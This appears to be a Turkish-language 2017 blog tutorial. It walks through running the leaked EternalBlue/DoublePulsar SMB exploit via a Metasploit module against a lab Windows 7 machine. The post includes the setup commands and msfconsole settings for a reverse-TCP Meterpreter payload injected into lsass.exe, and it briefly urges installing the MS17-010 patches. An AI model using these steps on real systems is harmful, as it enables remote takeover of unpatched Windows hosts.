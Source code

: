 ```yaml
---
layout: post
title: "Metasploit Framework EternalBlue&Double Pulsar"
date: 2017-05-02
share: true
description: Metasploit Framework EternalBlue&Double Pulsar
tags:
 - doublepulsar
 - shadowbrokers
 - metasploit
comments: true
---
```


# Metasploit Framework EternalBlue&Double Pulsar

Selamlar , bildiğiniz gibi nsa tarafından yazılan kullanılan araçlardan bazıları shadow brokers adlı grup tarafından yayınlandı. 

Yayınlanan araçlardan fuzzbunch adındaki framework en fazla dikkat çeken araç oldu.

Özellikle doublepulsar backdooru ile birçok windows sürümlerine sızılabiliyor.

Bu zaafiyetlerden etkilenmemek için MS17-010 ile ilgili güncellemeleri yüklemelisiniz.

Sızdırılan exploitler kısa bir süre içinde engellendi fakat birçok github hesabı üzerinde bu toollara erişebilrisiniz.

Bir örnek:

[Nsa Shadow Brokers Tools](https://github.com/misterch0c/shadowbroker)

Bu sızıntı hakkında birçok bilgi bulunnaktadır araştırmanızı öneririm. Ben kısaca doublepulsarın metasploit frameworkü üzerinde kullanılmasından bahsedicem.

Eternalblue&Doublepulsar kısaca smb üzerinden dll injection yaparak hedefe sızmayı sağlıyor. Fuzzbunch frameworku üzerinde kullanılıyor.

Araştırırken hep windows üzerinde fuzzbunch'ı kullanarak hedefe sızmaya çalıştığını gördüm. Fakat fuzzbunch'ı windows üzerinde çalıştırmayı denerken bazı bağımlılıkları yüklerken hatalarla karşılaştım. Daha sonra gördüm ki doublepulsarı metasploit üzerindede kullanabiliyormuşuz. Hem bu şekilde kullanım açısından daha kolay olur diye düşündüm.

Sırasıyla aşağıdaki komutları çalıştırıyoruz.

>dpkg --add-architecture i386 && apt-get update && apt-get install wine32
>rm -r ~/.wine
>wine cmd.exe
>exit

Daha sonra [https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit](https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit) bu adresten metasploit için eternalblue&doublepulsar modünü indiriyoruz.

>git clone https://github.com/ElevenPaths/Eternalblue-Doublepulsar-Metasploit

İçerisinde bulunan <u>deps</u> klasörü ile <u>eternalblue_doublepulsar.rb</u> dosyasını kalide <u>/usr/share/metasploit-framework/modules/exploits/windows/smb/</u> klasörü içersine kopyalıyoruz.

>service postgresql start - - - > Metasploit'i baştan başlatıyoruz.

Ben Windows 7 Service Pack1 makinesine sızmayı deneyeceğim.

Windows 7 makinesini IP adresi > 172.16.72.129

Kali nin IP adresi > 172.16.72.128

Eternalblue modülünü kullanmak için msfconsole'de:

	use exploit/windows/smb/eternalblue_doublepulsar

![](/images/doublepulsar/1.png)

>show options ile set edebilceğimiz değerler:


![](/images/doublepulsar/2.png)

	set DOUBLEPULSARPATH /usr/share/metasploit-framework/modules/exploits/smb/deps
	set ETERNALBLUEPATH /usr/share/metasploit-framework/modules/exploits/smb/deps
	set rhost 172.16.72.129
	set targetarchıtecture x64
	set payload windows/meterpreter/reverse_tcp
	set processinject lsass.exe
	set lhost 172.16.72.128
	set target 9

![](/images/doublepulsar/3.png)

Son olarak değerler:

![](/images/doublepulsar/4.png)

Daha sonra exploit diyerek hedef makineye sızma işlemini gerçekleştiriyoruz.

![](/images/doublepulsar/5.png)





